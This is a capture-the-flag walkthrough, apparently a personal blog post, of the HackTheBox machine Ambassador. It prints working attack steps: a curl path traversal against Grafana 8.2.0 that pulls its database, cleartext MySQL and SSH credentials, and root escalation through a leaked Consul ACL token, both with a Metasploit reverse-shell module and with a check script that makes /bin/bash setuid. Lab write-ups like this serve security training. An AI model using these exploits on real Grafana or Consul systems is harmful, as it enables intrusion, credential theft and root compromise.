# HackTheBox - Ambassador


This post is focused on the walkthrough of Medium difficulty Machine Ambassador from HackTheBox.

<!--more-->

## Enumeration

Starting out with the initial nmap scan.

```bash
┌──(saad👻ssaadakhtarr)-[~/…/hackthebox/hackthebox/machines/ambassador]
└─$ nmap -A -vv 10.10.11.183 -oN nmapN

PORT     STATE SERVICE REASON  VERSION
22/tcp   open  ssh     syn-ack OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 29:dd:8e:d7:17:1e:8e:30:90:87:3c:c6:51:00:7c:75 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDLYy5+VCwR+2NKWpIRhSVGI1nJQ5YeihevJqIYbfopEW03vZ9SgacRzs4coGfDbcYa+KPePbz2n+2zXytEPfzBzFysLXgTaUlDFcDqEsWP9pJ5UYFNfXqHCOyDRklsetFOBcxkgC8/IcHDJdJQTEr51KLF75ZXaEIcjZ+XuQWsOrU5DJPrAlCmG12OMjsnP4OfI4RpIjELuLCyVSItoin255/99SSM3koBheX0im9/V8IOpEye9Fc2LigyGA+97wwNSZG2G/duS6lE8pYz1unL+Vg2ogGDN85TkkrS3XdfDLI87AyFBGYniG8+SMtLQOd6tCZeymGK2BQe1k9oWoB7/J6NJ0dylAPAVZ1sDAU7KCUPNAex8q6bh0KrO/5zVbpwMB+qEq6SY6crjtfpYnd7+2DLwiYgcSiQxZMnY3ZkJiIf6s5FkJYmcf/oX1xm/TlP9qoxRKYqLtEJvAHEk/mK+na1Esc8yuPItSRaQzpCgyIwiZCdQlTwWBCVFJZqrXc=
|   256 80:a4:c5:2e:9a:b1:ec:da:27:64:39:a4:08:97:3b:ef (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBFgGRouCNEVCXufz6UDFKYkcd3Lmm6WoGKl840u6TuJ8+SKv77LDiJzsXlqcjdeHXA5O87Us7Npwydhw9NYXXYs=
|   256 f5:90:ba:7d:ed:55:cb:70:07:f2:bb:c8:91:93:1b:f6 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAINujB7zPDP2GyNBT4Dt4hGiheNd9HOUMN/5Spa21Kg0W
80/tcp   open  http    syn-ack Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Ambassador Development Server
|_http-generator: Hugo 0.94.2
| http-methods: 
|_  Supported Methods: HEAD GET POST OPTIONS
|_http-server-header: Apache/2.4.41 (Ubuntu)
3000/tcp open  ppp?    syn-ack
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 302 Found
|     Cache-Control: no-cache
|     Content-Type: text/html; charset=utf-8
|     Expires: -1
|     Location: /login
|     Pragma: no-cache
|     Set-Cookie: redirect_to=%2Fnice%2520ports%252C%2FTri%256Eity.txt%252ebak; Path=/; HttpOnly; SameSite=Lax
|     X-Content-Type-Options: nosniff
|     X-Frame-Options: deny
|     X-Xss-Protection: 1; mode=block
|     Date: Sun, 02 Oct 2022 12:24:49 GMT
|     Content-Length: 29
|     href="/login">Found</a>.
|   GenericLines, Help, Kerberos, RTSPRequest, SSLSessionReq, TLSSessionReq, TerminalServerCookie: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest: 
|     HTTP/1.0 302 Found
|     Cache-Control: no-cache
|     Content-Type: text/html; charset=utf-8
|     Expires: -1
|     Location: /login
|     Pragma: no-cache
|     Set-Cookie: redirect_to=%2F; Path=/; HttpOnly; SameSite=Lax
|     X-Content-Type-Options: nosniff
|     X-Frame-Options: deny
|     X-Xss-Protection: 1; mode=block
|     Date: Sun, 02 Oct 2022 12:24:17 GMT
|     Content-Length: 29
|     href="/login">Found</a>.
|   HTTPOptions: 
|     HTTP/1.0 302 Found
|     Cache-Control: no-cache
|     Expires: -1
|     Location: /login
|     Pragma: no-cache
|     Set-Cookie: redirect_to=%2F; Path=/; HttpOnly; SameSite=Lax
|     X-Content-Type-Options: nosniff
|     X-Frame-Options: deny
|     X-Xss-Protection: 1; mode=block
|     Date: Sun, 02 Oct 2022 12:24:22 GMT
|_    Content-Length: 0
3306/tcp open  mysql   syn-ack MySQL 8.0.30-0ubuntu0.20.04.2
| mysql-info: 
|   Protocol: 10
|   Version: 8.0.30-0ubuntu0.20.04.2
|   Thread ID: 95
|   Capabilities flags: 65535
|   Some Capabilities: SwitchToSSLAfterHandshake, LongPassword, SupportsCompression, Speaks41ProtocolOld, FoundRows, InteractiveClient, LongColumnFlag, IgnoreSigpipes, Support41Auth, IgnoreSpaceBeforeParenthesis, SupportsLoadDataLocal, Speaks41ProtocolNew, DontAllowDatabaseTableColumn, ODBCClient, ConnectWithDatabase, SupportsTransactions, SupportsMultipleStatments, SupportsMultipleResults, SupportsAuthPlugins
|   Status: Autocommit
|   Salt: m\x0C
| WCYIcc\x0Ba,E!!2U|\x1FM
|_  Auth Plugin Name: caching_sha2_password
|_tls-nextprotoneg: ERROR: Script execution failed (use -d to debug)
|_tls-alpn: ERROR: Script execution failed (use -d to debug)
|_ssl-date: ERROR: Script execution failed (use -d to debug)
|_ssl-cert: ERROR: Script execution failed (use -d to debug)
```

There are multiple ports open so I'll start with port 80.



It's a website made with *hugo* (a static site generator). On the website, there's a post in which a possible system user is revealed as ```developer```.



Since I didn't find any unique domain name for the website, I added the usual htb pattern domain name in my */etc/hosts* file as ```ambassador.htb```.

The website didn't provide much detail on further enum. I also tried directory brute forcing but it was also a dead end.

Moving on to the other open port 3000.

On browsing the port 3000 on a web browser, it redirects us to ```http://ambassador.htb:3000/login```.



It's a Grafana Login page.


Grafana is an open source interactive data-visualization platform, developed by Grafana Labs, which allows users to see their data via charts and graphs that are unified into one dashboard (or multiple dashboards!) for easier interpretation and understanding.


Source: https://www.redhat.com/en/topics/data-services/what-is-grafana

Default credentials didn't work here. So I tried looking for exploits for grafana. The main login page also revealed that grafana `8.2.0` is running.


Grafana versions 8.0.0-beta1 through 8.3.0 (except for patched versions) iss vulnerable to directory traversal, allowing access to local files.


Source: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-43798

## Foothold

Trying out [this](https://www.exploit-db.com/exploits/50581) exploit from exploit-db, we can read local files on the server.



Now since we can read the local files on the server, what can we read next? I tried reading the `/home/developer` files like `user.txt` or ssh keys but it didn't work because we possibly don't have enough privilege to read those files.

Next I tried reading the default config files. [This](https://vk9-sec.com/grafana-8-3-0-directory-traversal-and-arbitrary-file-read-cve-2021-43798/) blog post showed different default files of grafana we can read and get sensitive information from.

The default config file `/etc/grafana/grafana.ini` contains the credentials for the login page.



And we get the credentials to login.



I couldn't find much in the grafana dashboard. Upon further reading the above mentioned blog, we can also read a database file `/var/lib/grafana/grafana.db`.

```
┌──(saad👻ssaadakhtarr)-[~/…/hackthebox/hackthebox/machines/ambassador]
└─$ curl --path-as-is http://ambassador.htb:3000/public/plugins/alertlist/../../../../../../../../var/lib/grafana/grafana.db -o grafana.db
```



Nice, we found some credentials for mysql. Since there was port 3306 for mysql open, we can try these credentials there.

```
┌──(saad👻ssaadakhtarr)-[~/…/hackthebox/hackthebox/machines/ambassador]
└─$ mysql -u grafana -h ambassador.htb -p
Enter password: dontStandSoCloseToMe63221!
```

Upon enumerating the databses, we found `developer` credentials in `whackywidget` db.

```
MySQL [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| grafana            |
| information_schema |
| mysql              |
| performance_schema |
| sys                |
| whackywidget       |
+--------------------+
6 rows in set (0.191 sec)

MySQL [(none)]> use whackywidget

Database changed
MySQL [whackywidget]> show tables;
+------------------------+
| Tables_in_whackywidget |
+------------------------+
| users                  |
+------------------------+
1 row in set (0.175 sec)

MySQL [whackywidget]> select * from users;
+-----------+------------------------------------------+
| user      | pass                                     |
+-----------+------------------------------------------+
| developer | YW5FbmdsaXNoTWFuSW5OZXdZb3JrMDI3NDY4Cg== |
+-----------+------------------------------------------+
1 row in set (0.237 sec)

MySQL [whackywidget]>
```

Using base64 decode to get the password.

```
┌──(saad👻ssaadakhtarr)-[~/…/hackthebox/hackthebox/machines/ambassador]
└─$ echo YW5FbmdsaXNoTWFuSW5OZXdZb3JrMDI3NDY4Cg== | base64 -d
anEnglishManInNewYork027468
```

Trying these credentials using `ssh`.

```
┌──(saad👻ssaadakhtarr)-[~/…/hackthebox/hackthebox/machines/ambassador]
└─$ ssh developer@ambassador.htb  
developer@ambassador.htb's password: anEnglishManInNewYork027468

developer@ambassador:~$ 
```

And we're in.

## user.txt

```
developer@ambassador:~$ whoami
developer

developer@ambassador:~$ ls -al
total 48
drwxr-xr-x 7 developer developer 4096 Sep 14 11:01 .
drwxr-xr-x 3 root      root      4096 Mar 13  2022 ..
lrwxrwxrwx 1 root      root         9 Sep 14 11:01 .bash_history -> /dev/null
-rw-r--r-- 1 developer developer  220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 developer developer 3798 Mar 14  2022 .bashrc
drwx------ 3 developer developer 4096 Mar 13  2022 .cache
-rw-rw-r-- 1 developer developer   93 Sep  2 02:28 .gitconfig
drwx------ 3 developer developer 4096 Mar 14  2022 .gnupg
drwxrwxr-x 3 developer developer 4096 Mar 13  2022 .local
-rw-r--r-- 1 developer developer  807 Feb 25  2020 .profile
drwx------ 3 developer developer 4096 Mar 14  2022 snap
drwx------ 2 developer developer 4096 Mar 13  2022 .ssh
-rw-r----- 1 developer developer   33 Oct  2 17:34 user.txt

developer@ambassador:~$ cat user.txt
1e****************************58
developer@ambassador:~$
```

## Privilege Escalation

For privilege escalation, `linpeas` didn't give much useful information. 

Checking the processes running as root using `pspy`, there's an interesting process.



On further enum, there are two folders in the `/opt` directory.

```
developer@ambassador:/opt$ ls -al
total 16
drwxr-xr-x  4 root   root   4096 Sep  1 22:13 .
drwxr-xr-x 20 root   root   4096 Sep 15 17:24 ..
drwxr-xr-x  4 consul consul 4096 Mar 13  2022 consul
drwxrwxr-x  5 root   root   4096 Mar 13  2022 my-app

```

In the `my-app` folder there's a git repo. 

Previous commits in the repo leaked the consul token.



Btw, for those who don't know what `consul` is.


Consul is a multi-networking tool that offers a fully-featured service mesh solution that solves the networking and security challenges of operating microservices and cloud infrastructure. Consul offers a software-driven approach to routing and segmentation.


Source: https://learn.hashicorp.com/tutorials/consul/get-started

A quick google search revealed that consul HTTP API uses port `8500`.



Looking at [this](https://www.hashicorp.com/blog/protecting-consul-from-rce-risk-in-specific-configurations) article, consul nodes with a specific configuration allows remote code execution.

Further reading the article, we have three conditions that shows that consul agent is vulnerable.


To check whether script checks are enabled or not, we can look at the `/etc/consul.d/consul.hcl` file.


So now we have,

- API available on `127.0.0.1:8500`.
- Script checks enabled.
- Compromised ACL Token.

For our ease we can forward port 8500 using ssh tunneling to access it locally on our machine.

```
┌──(saad👻ssaadakhtarr)-[~/…/hackthebox/hackthebox/machines/ambassador]
└─$ ssh -L 8000:127.0.0.1:8500 developer@ambassador.htb
```

From here we have two methods to escalate our privileges to root.

### Using Metasploit

Using `exploit/multi/misc/consul_service_exec`.



Here on my local machine, I have access to consul API at `127.0.0.1:8000` so I will set the following options.

- RHOST -> 127.0.0.1
- RPORT -> 8000
- ACL_TOKEN -> bb03b43b-1d81-d62b-24b5-39540ee469b5
- LHOST -> 10.10.14.10
- LPORT -> 4444

Now we run the exploit and get shell as root.



### Manual Exploit

For exploiting the vulnerability manually, we need to create a consul `health check script` and then register that with the token. Upon reloading the consul, our injected code will get executed.

We will inject our malicious code in the `health check script`.

Creating the script in `/etc/consul.d/config.d/` as `script.hcl`

```
check = [
    {
      id       = "1"
      args     = ["chmod", "4777", "/bin/bash"]
      interval = "10s"
    }
]
```

Now registering the service and reloading the consul as follows.

```
developer@ambassador:/opt/consul$ consul services register -token=bb03b43b-1d81-d62b-24b5-39540ee469b5 /etc/consul.d/config.d/script.hcl

developer@ambassador:/opt/consul$ consul reload -token=bb03b43b-1d81-d62b-24b5-39540ee469b5
```

Now executing `bash -p` will give us shell as root.

## root.txt

```
developer@ambassador:/opt/consul$ bash -p

bash-5.0# whoami
root

bash-5.0# cat /root/root.txt
7b****************************ad

```

**Thanks for reading!**


